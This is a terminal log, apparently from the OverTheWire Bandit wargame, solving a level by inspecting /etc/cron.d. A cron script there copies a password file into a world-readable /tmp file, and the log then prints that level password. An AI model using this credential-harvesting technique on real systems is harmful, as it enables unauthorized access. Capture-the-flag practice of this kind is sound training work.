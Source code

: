 bandit21@melissa:~$ cd /etc/cron.d/

bandit21@melissa:/etc/cron.d$ ls -la

total 100

drwxr-xr-x  2 root root 4096 2013-01-03 16:39 .

drwxr-xr-x 94 root root 4096 2013-03-18 15:53 ..

-rw-r--r--  1 root root   54 2013-01-03 16:39 boobiesbot-check

-rw-r--r--  1 root root   61 2012-07-05 09:34 
cronjob_bandit22

-rw-r--r--  1 root root   61 2012-07-05 09:34 cronjob_bandit23

-rw-r--r--  1 root root   61 2012-07-05 09:35 cronjob_bandit24

-rw-r--r--  1 root root   35 2012-03-29 14:16 eloi0

-rw-r--r--  1 root root   35 2012-04-07 18:33 eloi1

-rw-r--r--  1 root root   51 2012-12-23 00:06 hintbot-check

-rw-------  1 root root  233 2012-09-14 13:16 
manpage3_resetpw_job

-rw-r--r--  1 root root  506 2012-06-19 03:06 php5

-rw-r--r--  1 root root  102 2011-01-05 11:23 .placeholder

-rw-r--r--  1 root root   58 2011-11-13 23:08 semtex0-32

-rw-r--r--  1 root root   58 2011-11-13 23:08 semtex0-64

-rw-r--r--  1 root root   59 2011-11-13 23:08 semtex0-ppc

-rw-r--r--  1 root root   36 2011-11-25 14:00 semtex10

-rw-r--r--  1 root root  143 2011-11-13 23:08 semtex12

-rw-r--r--  1 root root   35 2011-11-13 23:08 semtex5

-rw-r--r--  1 root root   29 2011-11-13 23:08 semtex6

-rw-r--r--  1 root root   96 2011-11-25 14:00 semtex8

-rw-r--r--  1 root root  134 2011-11-13 23:14 semtex9

-rw-r--r--  1 root root   29 2011-11-13 23:07 vortex0

-rw-r--r--  1 root root   30 2012-03-24 21:00 vortex20

-rw-r--r--  1 root root   52 2012-12-23 00:06 vulnbot0-check

-rw-r--r--  1 root root   52 2012-12-23 00:06 vulnbot1-check

bandit21@melissa:/etc/cron.d$ cat cronjob_bandit22
bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null

bandit21@melissa:/etc/cron.d$ cat /usr/bin/cronjob_bandit22.sh

//#!/bin/bash

chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
bandit21@melissa:/etc/cron.d$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI